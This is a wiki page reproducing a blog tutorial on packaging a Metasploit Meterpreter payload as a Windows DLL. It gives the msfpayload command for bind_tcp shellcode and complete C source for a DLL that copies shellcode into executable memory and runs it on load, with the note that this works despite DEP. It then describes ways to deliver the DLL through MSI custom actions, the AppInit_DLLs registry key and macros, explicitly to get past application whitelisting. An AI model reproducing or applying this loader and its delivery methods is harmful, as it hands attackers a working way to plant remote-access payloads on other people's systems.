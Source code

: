<!-- TITLE: Payloaddll -->
<!-- SUBTITLE: A quick summary of Payloaddll -->

From
http://hype-free.blogspot.com/2009/01/loading-meterpreter-in-dll.html

Some times it may be useful to load the Meterpreter (or any payload in fact) as a DLL. Two scenarios I can think of:

Software Restriction Policies (and many other whitelisting products) don't filter DLLs (even though, they probably can be configured - SRP can be for example), so it might be useful to get in and execute the code from a DLL.
It may be interesting to load it in a MSI.

Anyway, first I tried the easy way: generate an executable and patch it as a DLL with a short pefile script:

import pefile
pe = pefile.PE("runme.exe")
pe.FILE_HEADER.Characteristics += 0x2000
pe.write(filename="loadme.dll")

This works... With a couple quite problematic shortcomings:

The PE file generated by msfpayload is based at 0x400000 and contains no relocation information, making it quite unlikely that it can be loaded in any real application...
And second: the launching of the shellcode is done from what is the "DllMain", resulting in the fact that the thread which loads the DLL will go in never ever land and won't be heard of again (with less nonsense: it will execute the shellcode and won't return from it, which can lead to things like freezing GUI / application if it is loaded from the main thread).

The conclusion is that a custom DLL written in C is needed. Fortunately it is quite easy to write such a thing. For this example I use the LCC-Win32 compiler because it is a nice and slim one, but you can use anything (like GCC, Watcom C - which is also free BTW - or even Visual C++).

First, export the shellcode:

./msfpayload windows/meterpreter/bind_tcp C > foo.txt

You should see something like the following in the output file:

unsigned char buf[] =

"\xfc\xe8\x56\x00\x00\x00\x53\x55\x56\x57\x8b\x6c\x24\x18\x8b"

...

Now it is time to create the project. The full source code is below (I omitted the actual payload code to shorted the post a little:


```text
#include <windows.h>

#include <string.h>



#ifdef __cplusplus

extern "C" DWORD WINAPI __declspec(dllexport) doNothingFunc(HANDLE hInstaller);

#endif



unsigned char buf[] =

"\xfc\xe8\x56\x00\x00\x00\x53\x55\x56\x57\x8b\x6c\x24\x18\x8b"

...;


DWORD WINAPI __declspec(dllexport) doNothingFunc(HANDLE hInstaller) {

 // we have done nothing successfully :-)

 MessageBox(NULL, "Here!", "Here!", MB_OK + MB_SERVICE_NOTIFICATION);

 return ERROR_SUCCESS;

}



DWORD WINAPI startShellcode(LPVOID lpParameter) {

 DWORD oldProtect;

 DWORD (*shellcode)(void);



 HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(buf), 2*sizeof(buf));

 if (NULL == hHeap) return GetLastError();

 void *shellCodeCopy = HeapAlloc(hHeap, 0, sizeof(buf));

 if (NULL == shellCodeCopy) return GetLastError();



 memcpy(shellCodeCopy, buf, sizeof(buf));

 VirtualProtect(shellCodeCopy, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

 shellcode = shellCodeCopy;

 return shellcode();

}



BOOL WINAPI __declspec(dllexport) LibMain(HINSTANCE hDLLInst, DWORD fdwReason, LPVOID lpvReserved) {

 if (DLL_PROCESS_ATTACH == fdwReason) {

  CreateThread(NULL, 0, startShellcode, NULL, 0, NULL);

  Sleep(500);

 }

    return TRUE;

}


```

A few remarks about the source code:

    The modus operandi is the following: as soon as the DLL is loaded a new thread is spawned. This thread copies the shellcode to a newly allocated memory block and jumps to it. This means that you don't need to actually call functions from the DLL to start it. Also, this means that the thread loading the DLL is not blocked.
    The zone where the shellcode is copied is marked properly with the execution attribute, this means that it will work even with NX/DEP enabled (because we're telling the OS that we do want to execute code from the given memory pages)
    Casting the pointer to the shellcode to a function pointer and calling it trough that was necessary because LCC doesn't seem to support inline assembly statements. As a sideeffect this code is also more portable (because it doesn't have to account for the Intel vs. AT&T assembly syntax differences)
    If you are compiling this LCC, you need to explicitly disable the "name mangling" for the exports to have the correct name (otherwise it will be named like "_doNothingFunc@4"). You can do this, go to Project -> Configuration -> Linker and check the "Do not include underscores in the dll exports" option.

Now, how can you load this dll?

    Via rundll32 (for testing): rundll32 mdll.dll,doNothingFunc 123
    Including it in an install kit. You need to add lines similar to the following to the WiX script previously discussed:

    <Binary Id="SampleDllCa" SourceFile="/pefile/mdll/lcc/msdll.dll" />

    <CustomAction Id="Meterpreter" BinaryKey="SampleDllCa" DllEntry="doNothingFunc" />



    <InstallExecuteSequence>

      <Custom Action="Meterpreter" Sequence='1'/>

    </InstallExecuteSequence>

    Using the AppInit_DLLS registry key. Contrary with what the linked documentation says, this works up to Windows 2k3. In Vista they changed it to LoadAppInit_DLLs with stricter ACLs (thanks to Raymond Chen for the link). One sideeffect is that the DLL is loaded every application, so be prepared to get a bunch of connections if you are using the connect-back payload.
    Importing the DLL from a macro. You can also check out Didier Steven's post about this topic.

One thing to keep in mind is that the process which hosts the DLL might end quickly, so something like this script to automatically migrate to a new process should be taken into consideration.

Have fun and stay safe!

Update: the same MSI is executed both on installing and uninstalling the product, so the DLL does have a second chance to run.
